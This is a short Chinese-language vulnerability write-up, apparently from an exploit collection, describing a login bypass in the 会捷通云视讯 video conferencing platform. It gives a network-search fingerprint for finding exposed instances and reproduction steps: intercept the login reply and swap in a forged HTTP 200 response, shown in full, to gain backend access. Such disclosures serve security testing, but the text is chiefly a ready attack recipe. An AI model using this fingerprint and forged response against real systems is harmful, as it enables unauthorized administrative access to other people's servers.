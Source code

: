 # 会捷通云视讯 登录绕过漏洞

## 漏洞描述

会捷通云视讯存在登陆绕过漏洞，通过拦截特定的请求包并修改即可获取后台权限

## 漏洞影响

```
会捷通云视讯
```

## 网络测绘

```
body="/him/api/rest/v1.0/node/role"
```

## 漏洞复现

登陆页面如下



![](./images/202202101858604.png)



输入任意账号密码抓包



![](./images/202202101858666.png)

修改返回包为如下后放包则成功绕过登录



```plain
HTTP/1.1 200 
Server: Hsengine/1.4.1
Date: Mon, 17 May 2021 16:13:43 GMT
Content-Type: application/json;charset=UTF-8
Connection: close
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Accept-Ranges: bytes
Vary: Accept-Charset, Accept-Encoding, Accept-Language, Accept
Content-Length: 61

{"token":null,"result":null}
```



![](./images/202202101858916.png)